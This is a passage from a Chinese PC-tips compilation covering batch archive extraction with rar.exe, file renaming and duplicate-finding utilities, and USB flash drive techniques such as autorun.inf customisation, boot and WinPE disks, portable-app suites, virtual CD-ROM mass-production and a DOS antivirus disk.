FOR /r %%v IN (*.rar) DO rar.exe x -r -O+ -EP2 -y -inul -ibck '%%v' *.txt *.xls *.doc *.wps *.mht *.htm *.html e:\txt\ -r -O+ -EP2
```

双击后，它就会将d:\articles下所有rar压缩包中的 *.txt、*.xls、*.doc、*.wps、*.mht、*.htm、*.html文件解压到e:\txt文件夹下。

```
FOR /r %%v IN (*.zip) DO rar.exe x -r -O+ -EP2 -y -inul -ibck '%%v' *.txt *.xls *.doc *.wps *.mht *.htm *.html e:\txt\ -r -O+ -EP2
```

则会将d:\articles下所有zip压缩包中的 *.txt、*.xls、*.doc、*.wps、*.mht、*.htm、*.html文件解压到e:\txt文件夹下。

## 十二、自动忽略带密码压缩文件

上述操作时，如果遇到有带密码的压缩包，则会出现一个窗口，提示输入密码。事实上，很多带密码的压缩包中的内容是可以忽略掉的，只要用-p-参数即可。即将上述内容替换为：

```
FOR /r %%v IN (*.rar) DO rar.exe x -r -O+ -EP2 -p- -y -inul -ibck '%%v' *.txt *.xls *.doc *.wps *.mht *.htm *.html e:\txt\ -r -O+ -EP2
```

```
FOR /r %%v IN (*.zip) DO rar.exe x -r -O+ -EP2 -y -inul -ibck '%%v' *.txt *.xls *.doc *.wps *.mht *.htm *.html e:\txt\ -r -O+ -EP2
```

当然，Windows下程序多如牛毛，我们也不可能一一把它们的参数列出。但从上面几个例子已经使我们感受到了参数的强大作用，以后在使用软件时可以多注意积累一点，因为它能让你事半功倍，效率大增！

为了图省事，无论是下载自己喜欢的图片，还是将网上感兴趣的文字保存为文本文件，人们经常会以默认的文件名进行保存。而这些文件的默认名，不是没有任何规律的数字，就是长长的文字。日后当我们查找某张图片或者某段自己喜欢的文字内容时，就比较麻烦了。怎样将这些文件迅速地进行重命名以方便我们查找呢？赶快试试“批量文件命名器”吧，它不但支持批量文件重命名，而且支持多种命名方式。下面，笔者就将自己使用“批量文件命名器”的一点经验来和大家共同分享。

## 玩转“批量文件命名器”

### 一、批量文件重命名

下载“批量文件命名器”，这是一个绿色软件，将其解压到硬盘的任意位置即可使用，其界面如图1所示。当我们利用“批量文件命名器”来对多个文件进行重命名时，需要执行以下操作

第一步：在图1所示的窗口中，单击左上角的下拉箭头，浏览找到所要进行重命名的文件所在的目录（如“E:\杂七杂八\图片及文本”），然后单击该窗口左下角的下拉箭头，选择所要进行重命名的文件所属的类型，如“*.txt”（找不到的文件类型，可手动输入），这时在图1，A处的显示区域就能够看到该目录下的所有文本文件了。



第二步：在图1中间有四个单选框，选中某个单选框，然后在该单选框下边的文本框内输入进行批量文件重命名时所要遵循的规则，比如，勾选“加词头对文件顺序编号”单选框，接着在该单选框下边的文本框内输入“备用选题材料”，最后单击“确认改名”按钮，就完成了多个文本文件的重命名工作，如图2。



### 二、文件清单巧生成

现在的硬盘空间是越来越大，人们从网上下载的文件资源也是越来越多，时间一长，当我们需要用到某个文件时，却找不到该文件在什么地方了，这时无论是用什么样的搜索工具来搜索，都会浪费不少的时间，而利用“批量文件命名器”所具有的清单功能，我们可以很方便地将某个文件夹内所有文件的文件名保存为文本文件，这样查找资源就方便多了。

在图1所示的窗口中，先切换到“文件清单”选项卡，然后按照上边介绍的方法，浏览找到所要生成“文件清单”的某个目录并选择所要生成清单的文件类型（如“*.MP3”），接着在“清单文本另存为”后边的文本框内输入所要生成的清单文本名称，再单击“生成清单”按钮，最后打开MP3文件所在的目录就可以找到生成的清单文本了，如图3。有了这个清单文本，就为我们以后查找相关文件带来了很大的方便。



### 小提示

1. 无论是进行批量文件重命名还是生成文件清单，“批量文件命名器”只对当前指定的目录有效，不处理该目录下子文件夹里边的内容。
2. 生成文件清单时，建议大家同一类型的文件生成一个清单，然后将不同类型的文件生成的多个文件清单复制到同一个目录下，以方便我们日后查找文件。

有了“批量文件命名器”，无论是进行批量文件重命名，还是生成文件清单，都是很方便的，感兴趣的朋友不妨一试。

## 重复文件特别占空间

### ——NoClone Home Edition

◆文/TMG lk

顾名思义，Noclone的意义就在于让您的电脑中没有无用的“克隆软件”，而该软件在这方面的确是功能强大，它可以帮助你按照大小、内容重复或者文件名相同等多种方式快速地在硬盘上搜索重复的文件，帮助用户清理无效占用的磁盘空间。此外，NoClone还可以搜寻局域网重复档案，对于名不同而内容相同的文件同样也是明察秋毫。为了保证删除的便捷与安全，NoClone还提供了储存搜寻结果和重复档案清单、显示档案版本及属性并预览档案、以多种规则智能标记清理重复文件的功能。

### 一、软件下载及安装

NoClone软件有多种版本，这里笔者为您介绍的是NoClone 2007 Home Edition V4.1.23e，该软件体积小巧，安装后只需要5MB左右的磁盘空间。该版本提供了完整的使用功能，但是设置了使用期限。如果需要长时间使用，您也可以自行搜索一些其他版本。下载地址为：http://www.skycn.com/soft/14422.html。

下载完成后解压，直接双击可执行文件“noclone.exe”图标，按照默认设置即可开始安装。软件安装完成后需要重启电脑系统方可使用，程序主界面如图所示。



### 二、重复软件删除操作

#### 1.重复软件搜索

打开选择路径（Select Paths）区域的路径（Path）选项卡选择重复文件搜索路径，只需单击浏览（Browse）按钮选择相应的文件路径即可。

打开文件大小（File Size）选项卡，为欲搜索的文件设置文件大小的上限和下限值。打开日期（Date）选项卡，选择欲搜索重复文件的日期范围。在文件类型（File Type）下拉文本框选择欲搜索文件的类型。上述设置完成后，单击添加（Add）按钮将所选择的路径添加进入搜索路径。需要指出的是，文件大小、日期、文件类型等选项可以不必选择，但是这些选项的设置会提高搜索速度。在搜索选项区域（Search Type）可以设置将要被作为重复文件搜索的类型，默认设置包括空文件、重复文件、同名文件。完成上述设置，单击搜索（Search）即可开始重复文件搜索，搜索完毕程序会将搜索到的重复文件列出。

#### 2.删除重复文件

由于NoClone 2007 Home Edition V4.1.23e会将搜索到的重复文件全部列出，因此在删除无用的重复文件之前需要对将要删除的文件进行标定。如果文件较少，用户可以直接勾选欲删除文件对应的复选框。如果搜索到的重复文件较多，您可以选择文件结果（Result Files）菜单下的智能标记命令（Smart Marker），打开智能标记对话框，这里您可以按照日期、大小或者版本对文件进行标定。以日期为例，我们可以标定日期较早的文件，以便在删除步骤中时旧文件删除。

标记完成后，按下DEL键或者选择文件结果菜单下的“从磁盘删除标记文件”命令即可删除被标定的文件。

值得一提的是，未注册的版本将同时删除的最大文件数限制为30个，如果您使用的是未注册版的话，只需重复执行删除命令即可。

#### 3. 搜索结果备份

如果您的搜索路径设置中选择了一个存储量比较大的文件分区，相应的搜索会耗费大量时间。如果这时您遇到搜索结果中有些文件需要过一段时间再删除的情况，那么保存相应的搜索结果以避免再次花费大量时间进行搜索是必要的。

选择文件结果菜单下的“输出搜索结果列表”命令，会打开“输出搜索结果列表”对话框，在这里为保存文件设置保存路径后单击确定即可。

此外，通过文件结果菜单下的“备份标记文件”命令，我们也可以完成对标记文件的备份。

## 百变金刚——大容量U盘使用技巧大观

◆文/TMG lk

### 一、火眼金睛——让闪盘远离病毒

闪盘作为信息传播的工具，经常要在不同的电脑之间传递信息。往来之际，如何面对日益猖狂的闪盘病毒就成了重中之重。正所谓“磨刀不误砍柴工”，为了顺心如意地使用自己的闪盘，了解一下如何保护我们的闪盘免遭病毒侵害实在是太有必要了。

首先为你介绍一些识别闪盘中毒与否的心得技巧，这也是我们保护闪盘远离病毒侵害的基本技能。

##### 1. 察言观色，识别闪盘病毒

常见的闪盘中毒症状有下面几种：
> 闪盘打开速度极慢，双击进入时显示被其他程序占用提示；
> 闪盘在没有被使用时不能正常弹出；
> 闪盘根目录下出现一些莫名的隐藏文件，最常见的为“Autoran.inf”；
> 在闪盘中右击菜单出现“自动播放”或“Auto”字样。

如果闪盘在使用过程中出现了上述一种或几种症状，那么你的闪盘就很有可能被病毒感染了。

> **小技巧：闪盘病毒“防干扰”设置**
> 
> 闪盘病毒一般通过“Autorun.inf”文件进行传播，只要我们双击闪盘图标时，该病毒就会通过“Autorun.inf”文件中的设置来自动激活病毒，然后将“Autorun.inf”文件同时拷贝到其他分区，导致其他分区都无法用双击鼠标的方法打开。遇到这种现象，我们可以采用杀毒软件进行病毒清理，直接通过Ghost程序来快速恢复一下系统都可以将病毒清理。
> 
> 为了防止闪盘病毒再次袭击，我们必须采取有效措施让本地系统远离闪盘病毒。而设置方法非常简单，我们只需要在闪盘根目录下面手工创建一个“Autorun.inf”文件，这样闪盘病毒就无法在闪盘根目录下面自动生成“Autorun.inf”病毒文件了，从而切断了闪盘病毒通过闪盘进行传播的通道。

##### 2. 借助专用闪盘杀毒软件清除病毒

由于闪盘病毒防不胜防，准备一款方便实用的闪盘杀毒软件还是很必要的。目前有很多流行的闪盘杀毒软件，如USB Killer、USBCleaner等。USBCleaner是其中一款比较流行的闪盘病毒专杀工具，它体积小巧，绿色安全，支持Windows 2000/2003/xp/vista。这里为你推荐USBCleaner的最新版本—— USBCleaner V6.0，下载地址为http://www.onlinedown.net/soft/57679.htm。

下载后解压，直接运行USBCleaner.exe即可打开软件主界面。在USBCleaner V6.0软件主界面中选择“查杀模式”选项卡，单击“开始检测”按钮就可以开始检测内存以及系统中的病毒。所有检测到的病毒将在“查杀模式”选项卡文本框中列出，以利于进一步进行删除。USBCleaner V6.0还集成了系统后台监控功能。单击软件主界面上的“后台监控”按钮就可以打开软件的系统病毒监控功能。

### 二、大容量闪盘使用入门技巧

我们总是希望手头上的事情条理清楚，那么大容量闪盘的使用也不例外。对于能“吃进”数以GB计的资料的大容量闪盘来讲，为之分门别类地建立多个分区和不同的目录是实现对文件的有效管理的好办法。同时，闪盘分区处理也有利于我们对闪盘进行进一步的开发利用，使之功能更加强大，例如我们可以在闪盘中划出专用区域用以制作U3的系统平台或者系统启动盘等。下面就来了解一下闪盘分区的设置方法。

#### 1. 闪盘分区

常用的闪盘分区工具，如iFormat无法完成对大容量闪盘的分区操作，同时由于闪盘的特殊性，我们无法像使用移动硬盘那样在Windows磁盘管理器中进行分区。这里笔者向你推荐“优易U盘加密软件2.0”。该软件体积小巧，解压后只有1.5MB左右，是与硬件无关的U盘加密软件，它利用虚拟文件系统技术将U盘划分为公开区与加密区。用户登录加密区后系统自动增加一个虚拟的逻辑分区，而用户对虚拟逻辑分区的操作都将转换为对U盘加密区的操作，在磁盘读写过程中本软件自动完成加解密操作，对应用程序是透明的。当然，这款软件还具有使用方便、安全高效的优良品质。下载地址是http://www.onlinedown.net/soft/41347.htm。

#### 2. 个性装饰

今天我们利用AutoRun.inf这个文件来为我们的闪存打造个性图标。Autorun.inf文件是Windows操作系统在默认情况下都支持的一个自动执行文件，系统启动后会自动在逻辑驱动器的根目录下寻找该文件并执行其中的命令，这也是我们能利用它扮酷盘符的前提条件。

第一步：要为我们的闪盘准备合适的图标，即以“.ico”为扩展名的图标文件，你可以在网上轻易搜到大量有个性的图标文件。如果你想使用自己的照片作为图标，也可以利用ACDsee软件更改其他格式文件为ico格式。对于bmp格式的文件，直接改名为ico格式即可。将设置好的图标文件存在闪盘根目录下。

第二步：利用记事本程序编辑“Autorun.inf”文件。在闪盘根目录下打开记事本程序，录入以下内容：
```
[autorun]
ICON=#.ico
```
其中，“[autorun]”行是固定格式，“ICON”行对应的是图标文件。将上述文件以文件名“Autorun.inf”保存在闪盘根目录下。需要注意的是，这里的“#.ico”即第一步中设置的图标文件名。

第三步：你只需要重新插拔一下自己的闪盘，这时就会发现闪盘已经换上了新衣。

##### 小技巧：闪盘背景设置

闪盘个性图标方便了我们识别自己的闪盘，然而每次打开闪盘，背景总是光秃秃的背景色，是不是觉得很单调呢？试想，打开闪盘，出现在你眼前的背景是一幅美丽的山水风景，或者是一张甜蜜的全家福，是不是会使自己的闪盘增添几分秀丽与温馨呢？

类似于闪盘图标的设置，闪盘背景设置的第一步也是需要你准备一张自己喜欢的图片，以“jpg”的格式复制到闪盘目录下。如果没有这种格式的图片，你可以用ACDSee等图片处理软件进行一下格式转换。

第四步：在闪盘根目录下打开记事本程序，录入如下内容：
```
[ExtShellFolderViews]
{BE098140-A513-11D0-A3A4-00C04FD706EC}={BE098140-A513-11D0-A3A4-00C04FD706EC}
[{BE098140-A513-11D0-A3A4-00C04FD706EC}]
Attributes=1
IconArea_Image=#.jpg
[.ShellClassInfo]
ConfirmFileOp=0
```
录入完毕后，将上述文件以文件名“desktop.ini”保存。需要注意的是，上述代码中“#.jpg”是上述第一步中准备图片的文件名。

完成了上述设置，重新打开闪盘或按“F5”键刷新，你会惊喜地发现眼前的闪盘已经换上了美丽的新衣了，如图2所示。



### 1. 设置闪盘成为系统启动盘

常用的USB闪盘启动盘制作软件有USBoot和Flashboot。二者各有优缺点，实际使用中，Flashboot对于2G及以上容量的闪盘支持效果更为优秀。考虑到当前闪盘容量的实际情况，笔者在这里为你推荐Flashboot。

Flashboot体积小巧，软件大小只有4MBG左右，但它具有高度可定制的特点和丰富的选项，兼容所有USB盘和BIOS。该软件功能强大，支持BartPE - Bart预安装环境启动CD转换为USB闪存启动盘；支持从Win9x传递DOS核心到USB盘；支持从软盘制作USB启动；支持从可引导光盘制作USB启动盘；制作Windows NT/2000/XP口令恢复及制作带有NT/2000/XP bootloader的USB盘；支持USB闪存盘复制等。下载地址为：http://www.onlinedown.net/soft/57713.htm。

#### ## 设置步骤

单击“Next”按钮进入“Choose disk creation type”（选择磁盘创建类型）界面。我们可以看到Flashboot程序提供了丰富的选项，既有转换光盘镜像文件到闪盘上的选项，也可以从软盘上提取启动文件到闪盘上。如果你手上不具有这两种资源，那么还可以直接选择“Create bootable flash disk with minimal set of DOS system files”（创建带迷你DOS系统的可启动闪盘）。

单击“Next”按钮进入“Get DOS system files from”（选择DOS系统源文件）页面，选择“use built-in FreeDOS”（使用内置免费DOS）。

单击“Next”按钮进入“Choose output type”（选择输出类型）页面。从本地磁盘驱动选项区域的驱动盘符下拉框选择闪盘。如果下拉框中没有任何盘符，那么首先请检查当前系统上是否有闪盘接入，如果有请单击“Refresh List”（刷新列表）按钮，相应的盘符就会显示在下拉列表框中。

单击“Next”按钮进入“Choose format type of target USB Flash Disk”（选择目标USB闪盘格式类型）页面，这里我们选择“USB-ZIP boot mode”。

到此我们就完成了启动盘制作的所有设置，单击“Next”按钮会进入确认信息界面，该界面文本框中列出了我们所有的设置信息。

单击“Finish”按钮，程序开始格式化闪盘，格式化后我们需要重新插拔一次闪盘，再次连接后闪盘内开始写入启动文件，制作完成时会弹出相应的成功提示信息。这样，一个以闪盘为媒介的系统启动盘就制作好了。

### 2. Win PE盘设置

Microsoft Windows Pre-installation Environment (Win PE) 是 Microsoft 开发的一个引导工具，它提供用于安装、故障排除和恢复的操作系统功能。事实上，我们也可以将手中的闪盘变身为系统维护盘，下面就为你介绍将闪盘做成系统维护盘的方法。

#### ## 软件下载

这里我们使用“WinPE老毛桃西改版0911”来完成闪盘系统维护盘的操作。“WinPE老毛桃西改版0911”是一款相对而言体积较小的系统维护软件，软件体积104MB，包括一些系统常用的维护软件，如磁盘分区管理软件、图片浏览工具、系统检测、测试工具等等。软件下载地址为：http://www.anxz.com/down/4504.html 。需要注意的是，使用“WinPE老毛桃西改版0911”进行系统维护盘的操作会对闪盘进行格式化，因此在进行下述操作之前，你需要确认自己闪盘内的文件得到了妥善的备份。

#### ## WinPE盘设置步骤

下载后解压，双击SETUP文件夹下的pesetup.exe文件打开安装界面。在安装界面中选择“[4] Grub安装/启动（U盘、移动硬盘安装）”，在安装界面下方光标处键入“4”后按回车键进入闪盘选择界面，这里需要正确输入自己的闪盘盘符，键入盘符后按回车键，这时程序会弹出严格按照软件说明操作提示，防止出错。

按任意键程序继续，会弹出“U盘格式化工具”界面，这里我们需要完成以下设置：在设备列表框中正确选择自己的闪盘盘符；在文件系统下拉列表框中选择“FAT32”，这种格式的文件系统兼容性更好；在卷标文本框设置卷标。设置完成后单击“开始”按钮，将闪盘格式化，格式化完成后会弹出格式化完毕对话框。

单击确定关闭格式化完毕对话框窗口，会弹出“Grub2U引导 MaotaoWinPE专用”界面，如图3所示。该界面中我们需要在设备选项区域磁盘列表框选择盘符。需要指出的是，这里的盘符名称显示为“WinPE老毛桃西改版0911”特有的“hd0、hd1”等字样，而非我们所熟悉的“D盘、I盘”等。当然识别闪盘也不是难事，只需按照我们闪盘的容量来判断就可以了。选定盘符以后，其他所有选项保持为默认值即可。



单击“安装”按钮，程序会自动开始安装引导盘，安装完成后自动返回DOS界面，并提示按任意键继续。

在上述界面单击任意键继续，进入密码设置界面，该界面中你需要完成密码的输入以及确认，设置完成后按任意键继续，程序开始自动复制文件。复制完成时程序会弹出安装完成提示界面，并提示WinPE卸载方法。按任意键退出界面，至此，我们的WinPE盘就制作好了。

## WinPE盘使用简介

将制作好Win PE盘的闪盘插入电脑，然后重启系统，在重启时按下“Delete”键，进入到BIOS中，将启动顺序更改为USB-ZIP优先，按“F10”存盘，再次重启计算机就可以进入到Win PE界面了。

在Win PE界面下单击开始菜单，打开“程序组”，你会发现这里集成了丰富的Windows维护工具，包括磁盘工具、管理工具、杀毒工具等等，而且都是图形界面操作，简单明了，可以很方便地完成系统维护操作。

## 3. 闪盘变身电脑加密锁

下面这就为你介绍一款制作闪盘加密狗的小软件——“Proteg 3.1”。“Proteg 3.1”是基于InFlexPoint技术开发的系统登录管理软件，Proteg即保护电脑免遭未经授权用户进入电脑系统的软件解决方案，它通过限制现有Windows账户必须同时使用闪盘和密码才能登录来增强对系统的保护性能。“Proteg 3.1”大小只有2MB，同时支持XP和Vista系统。下载地址为：http://rbytes.net/software/proteg-review/。

## 软件安装

软件下载完毕后双击“proteg31.exe”文件开始安装，按照默认设置进行安装，直到进入紧急账户（Emergency Account）设置页面。紧急账户页面是为了在电脑系统中建立一个紧急登录账户，在丢失闪盘登录密码的情况下使用，在该页面中按照要求输入有效邮箱账户、以及“母亲的原名”（当然，你可以任意输入便于自己记忆的字母），并选择爱好的颜色以及星座。当你不能通过闪盘账户顺利登录时，使用“Ctrl+Alt+Del”组合键可进入紧急账户，输入“proteg_emergency”作为用户名即可获取登录密码。

## 闪盘加密狗设置

安装完毕后，运行程序，弹出主界面，其中提供了多个选项。选择“Enable Proteg on specific user access”，程序将为系统中已有的账户（该账户必须有管理员权限）设置闪盘账户，设置完成后程序将仅允许使用合法闪存登录，原有的用户登录账号将不能使用。“Create a new Proteg enable user access”则会建立一个新的闪盘账户，该设置与现有系统账户相互独立。这里我们选择“Enable Proteg on specific user access”，单击“Next”按钮进入下一界面，该界面中程序会将现有系统中的所有账户列出。这里程序要求我们选取设置闪盘加密狗的账户。

单击“下一步”进入密码设置页面。在该页面中我们需要设置并确认密码，该密码会取代上步操作选中账户的现有密码作为闪盘登录账户密码，密码长度不能短于8位。密码设置完成后单击“下一步”按钮进入安装完成页面，该界面会提示重新登录时的注意事项，单击“完成”即可完成安装。安装完成后Proteg就会接管Windows系统的开机与注销过程，重启后登录时，启动页面会出现闪盘登录账户，这时用户只能通过该账户登录了。

## 使用提示

如果你还需要一个账户使得闪盘加密账户与普通Windows账户都能登录，那么你可以选择“Disable Proteg from specific user access”，后续设置步骤与“Enable Proteg on specific user access”选项基本相同，你也可以参考软件提供的帮助文件。

使用闪盘加密狗会增加我们系统的安全性，但也要注意妥善保管你的闪盘，以免造成不必要的麻烦。


对于离不了电脑而又经常需要变动工作环境的朋友来讲，每次使用电脑都很难找到自己熟悉的软件，面对陌生的电脑环境，工作效率也慢了不少。当然你可以将笔记本随身携带，但是现在你可以有一个更方便的选择，那就是U3盘。U3是由SanDisk与以色列著名的闪存技术开发商Msystems共同研发的、基于USB闪盘（UFD，USB Flash Drive）的新一代随身智能应用平台，它在U3平台所在的UFD上安装了一些软件，这样就把U3变成了UFD上的一个迷你操作系统，你可以将自己熟悉的软件带在身边，使用时也不用再去安装，与在电脑上使用Windows几乎没什么两样。

当然这些软件对于系统而言都是绝对绿色软件，拔掉UFD，电脑系统没有一丁点儿痕迹。

对于很多朋友而言，使用U3的最大障碍是该设备高昂的价格。但是借助于软件的帮助，如果你拥有一款容量适当的闪盘，我们就可以将普通闪盘变身为U3盘。下面就为你介绍两款具备U3盘制作功能的软件：Ceedo 2.2.1.23 汉化特别版与PortableApps Suite Standard V1.0。

## 1. 利用Ceedo设置U3盘

Ceedo 2.2.1.23 汉化特别版软件体积小巧，源文件只有4.5MB左右，相应的功能也比较简单，在程序内部只集成了IE、Office以及Outlook三种软件，但是我们可以再添加其它程序。

Ceedo可以在USB存储设备上运行诸如Web浏览器、邮件客户端、办公组件等常用软件，且独立于操作系统，此外可以方便地备份个人资料，就像使用U3闪盘一样方便。而且可以把绿色软件拷到安装目录中直接使用，因此该软件也被称为“口袋操作系统”。

Ceedo 2.2.1.23 汉化特别版的下载地址为http://www.onlinedown.net/soft/51852.htm。

下载完成后直接双击安装文件，按照默认设置安装。软件的安装位置选择为可移动磁盘（你的闪盘），并且要安装在闪盘根目录下，安装后闪盘图标会自动改变为Ceedo图标。

- Ceedo的U3盘设置步骤

安装完毕后，将闪盘弹出并重新连接到计算机上，右击安装有Ceedo的闪盘图标，在弹出的快捷菜单中，选择“打开Ceedo操作窗口”命令打开Ceedo执行窗口。如图4。

选择“启动Ceedo”选项，单击确认按钮即可打开Ceedo界面。可以看到Ceedo的界面与Windows操作系统的界面极其相似。

Ceedo的初始界面十分简单，单击“全部程序”可以发现其中只安装了IE、Office以及Outlook三种软件。单击“添加程序”命令，程序会自动打开Ceedo官方网站，网站的右上角提供了网站语言选择。该网站提供了大量的Ceedo专用程序，分为工作生产、即时通信、网络浏览、娱乐游戏、图片编辑、媒体播放、实用工具及IT角等。

安装程序的步骤十分简单。以 "Abiword 2.6.4" 程序安装为例，该程序是一款免费的类似于Word的文字处理程序，适合于各类文字处理任务。首先我们从Ceedo官方网站主页程序目录选择“工作生产”选项，这时目录右侧会列出该目录下所有的软件。

找到 "Abiword 2.6.4"，单击“下载”，会弹出“添加程序到Ceedo”对话框。单击“是”按钮，Ceedo就会立即启动程序安装器，将选中程序的所有文件和文件夹安装到你的Ceedo驱动器，并在Ceedo启动页面中显示。只要插入你的装有Ceedo的闪盘，该程序在任何电脑上都可以顺利使用。同样，我们也可以根据需要很方便地添加其他的应用程序来打造自己的随身办公秘书。

## 2. 利用PortableApps设置U3盘

从上述操作可以看出，Ceedo允许我们自己来组合程序。如果将Ceedo称为自助餐式U3盘，那么下面为你介绍的PortableApps Suite Standard V1.0则是套餐式便携系统，相应的该软件体积也大了许多，PortableApps Suite Standard V1.0安装包大约为90MB。

事实上PortableApps有多个版本，分别为标准版、精简版、基础版。标准版和精简版都有集成的应用程序，但软件体积较大，然而相对于目前闪盘的大容量来讲仍然微不足道。PortableApps Suite Standard V1.0为标准版。

PortableApps套件是一些轻便软件的集合，包含一个网络浏览器、电子邮件客户端、办公套件、日历程序、即时聊天客户端、反病毒软件、数独游戏、备份工具和整合的菜单，全部重新配置后适合放在便携设备中，同时该软件还允许用户自行增加应用软件。PortableApps Suite Standard V1.0 包括了 Firefox Portable 2.0、OpenOffice.org 2.0.4、Thunderbird Portable 1.5.0.8等众多套件，可用于任何安装Windows或Linux操作系统的电脑。下载地址为http://www.onlinedown.net/soft/54362.htm。

下载后解压，直接双击安装文件开始安装，在首先弹出的安装路径对话框中，将安装路径设置为闪盘根目录即可。由于软件初始体积较大，安装过程将持续20分钟到30分钟左右。

## PortableApps的U3盘设置

由于PortableApps Suite Standard V1.0中已经集成了一些应用程序，因此安装程序完成后一个初步的U3盘已经制作完成了，是不是很方便呢？

将闪盘重新插拔一下，双击闪盘根目录下的"StartPortableApps.exe"即可打开U3盘操作系统，如图5所示，可以看出其界面与XP操作系统的“开始”菜单极其相似。界面的左侧列出了安装程序中自带的程序列表，这些程序已经安装完毕，单击相应的程序就可以使用了；界面的右侧列出了功能选项。



## U3盘数据备份操作

在程序的启动界面右侧单击“Backup”选项会弹出“Backup files”和“Restore from backup”两个选项，分别完成数据备份和备份数据导入工作。

单击“Backup files”会弹出数据备份向导，通过该向导我们可以完成整个闪盘内的应用程序、数据、文档等资料的备份，备份目录可以在向导中设置，也可以采用默认的数据备份目录。除此之外，还可以选择是否以压缩方式保存数据。相应的，“Restore from backup”命令可以将曾经保存的数据重新读取。

## U3盘程序安装与删除

为了使手中的U3盘更加方便好用，我们还需要根据自己的需求安装一些需要的软件，以增强U3盘的功能。

安装之前我们需要到PortableApps官方网站下载需要安装的程序，下载地址为http://portableapps.com/apps。类似于Ceedo，PortableApps官方网站也提供了丰富的下载软件。

下载完毕后，双击闪盘根目录下的"StartPortableApps.exe"打开U3盘操作系统，在界面右侧功能选项区单击“Options”选项，在弹出的菜单中单击“Install a new app”命令，接下来在弹出的对话框中选择已下载文件的存放路径即可。

删除程序也很简单，只需单击“Options”选项下的“Remove an app”命令或者直接在闪盘上将相关内容删除即可。

本节内容笔者为你介绍了两款设置普通闪盘为U3盘的软件及使用方法，现在你可以根据自己的需要，为自己量身定做口袋里的办公环境了。

# 五、闪盘功能升级——虚拟光驱&杀毒篇

## 1.闪盘虚拟光驱

相信很多朋友都使用过虚拟光驱来安装文件。虚拟光驱是一种模拟（CD-ROM）工作的工具软件，它具备实际光驱的功能，只要将光盘上的应用软件镜像存放在硬盘上生成一个虚拟光驱的镜像文件，然后就可以使用虚拟光驱打开镜像文件。利用手中的闪盘也可以具备虚拟光驱的功能，而且闪盘具有高速高效的优势。

闪盘光驱可谓用处多多，例如在安装操作系统上就大有可为。出于提高电脑运行速度或者遇到一些突发事件，很多朋友经常要重新安装操作系统，使用闪盘虚拟光驱可以提高重装系统的效率。对于光驱损坏或系统盘不能正常使用的朋友来讲，为自己的闪盘设置虚拟光驱功能更是用处多多。

### 识别闪盘芯片类型

闪存量产工具是制作闪盘虚拟光驱必不可少的软件，但是不同闪存芯片对于闪存量产工具有不同的要求，因此在开始制作闪盘虚拟光驱之前必须首先了解我们手中闪存的芯片类型。

由于无法直接观察闪存的内部构造，我们需要借助于软件的帮助来查看闪存芯片类型。

这里笔者为你介绍芯片精灵“Chip Genius 2.64”，它的下载地址是http://www.onlinedown.net/soft/67367.htm。“Chip Genius 2.64”是一款绿色免费软件，体积只有125KB。下载完成后解压文件，直接双击“Chipgenius.exe”文件即可打开程序窗口，软件会自动检测当前电脑中接入的USB设备，并将选中设备的信息详细列出。除了可以获得芯片类型信息，我们还可以利用PNP设备ID信息搜索到相关的量产工具使用参考信息，如教程或他人的经验总结。

此外值得一提的是，利用Chip Genius的USB设备芯片型号检测功能，该软件还可以帮助我们在选购U盘时识别真伪，也可以通过它来检测MP3主控方案，为我们的选购提供参考。

### 量产工具下载

以查到的芯片型号为关键词进行搜索，很容易就能找到合适的量产工具，以金士顿优盘（芯片型号MW6208）为例，在百度搜索中输入关键词查找，很容易找到相应的量产工具“MW6208量产工具最新版UdTools1.0.3.8 20080611”及其下载地址http://www.pc0359.cn/downinfo/2655.html。下载后解压，直接双击可执行文件“UDtools.exe”即可打开程序主页。

### 闪盘虚拟光驱制作

需要指出的是，虚拟光驱的制作需要准备一个ISO镜像文件，例如XP操作系统的镜像文件。

程序默认打开“量产进度”选项卡，这里会列出当前连接电脑的闪盘信息。单击“量产设置”选项卡进入量产设置页面，如图6所示。

在“闪存设置”选项区域使用自动检测时可以使用默认设置，如果容量识别有误，那么可以选中“禁止自动选择”，然后手动从“闪存类型”下拉列表框中选择正确容量的闪盘即可。

在“格式化设置”选项区域选择扫描级别，首先可以选择“级别0，超高速格式化”。若该选项下不能完成格式化时再换用其他扫描级别选项。

在“分区设置”选项区域设置磁盘分区数量，该软件最多支持3个分区，这里我们选择分区数量为1。然后在“分区一”选项区域设置分区类型为CD-ROM，设置卷标并从“光盘镜像”文本框选择前面准备好的镜像文件。

设置完毕后返回“量产进度”页面，单击“全部开始”按钮，就可以开始量产闪存。等到程序结束，我们手中的闪盘已经变身为可以移动的USB光驱了。

闪盘光驱的使用十分简单，以我们上述提到的XP操作系统镜像文件为例，当闪盘光驱制作好以后，在系统中闪盘会出现两个盘符：光驱和普通盘符，单击光驱即可打开使用。如果要在DOS环境下使用，那么需要首先进入到BIOS，设置为从闪存引导，再次重启时计算机就会自动通过闪存引导进入到XP操作系统安装界面。

## 2.闪盘杀毒软件

类似于从闪存引导进入操作系统安装界面，我们也可以将手中的闪盘设置为杀毒盘，然后在BIOS中将启动顺序改为从闪存引导，保存后重启，我们就可以从闪盘引导进入到杀毒界面。这样做的好处之一是直接基于DOS杀毒比在Windows环境下杀毒更为干净彻底。当我们的操作系统遭受意外病毒袭击时，闪盘杀毒也为我们的爱机恢复提供了额外的保障。

### 闪盘杀毒盘制作

将闪盘制作为杀毒盘较为简单，这里笔者为你推荐“卡巴斯基新版纯DOS杀毒软件 V4.0”，这是一款免费版的DOS杀毒软件，该软件的病毒库升级以及杀毒闪盘制作都十分简单，软件大小约为35MB，软件下载地址为http://www.greendown.cn/soft/3596.html。

下载后解压，双击“avp.bat”，程序会自动引导进入DOS界面，用上下方向键选中“制作卡巴斯基DOS杀毒闪盘”，按下回车键即可进入制作程序，按照默认提示即可完成。值得一提的是“卡巴斯基·新版纯DOS杀毒软件 V4.0”也提供了病毒库一键更新功能，在制作杀毒闪盘之前升级一下病毒库是必要的。

### 启动时使用闪盘杀毒

闪盘杀毒盘制作完成后可以按照下列方法设置，使系统完成启动时使用闪盘杀毒。

电脑启动时按Del键，进入CMOS设置程序，在Advanced Bios Features中将First Boot Device改为USB-ZIP，按F10，存盘退出。

电脑重启后，将从U盘启动，按屏幕提示即可进行杀毒操作。

# 六、闪盘常见问题解决方案

闪盘的使用过程中总是难免产生这样或那样的问题，为此笔者专门收集了几种闪盘常见问题及其处理方法供读者朋友参考。

## 自动播放功能失效

产品本身带有自动播放功能，在使用过程中出现了不能自动播放的问题，主要有以下两个原因：系统程序设置关闭了自动播放功能；系统中了病毒。

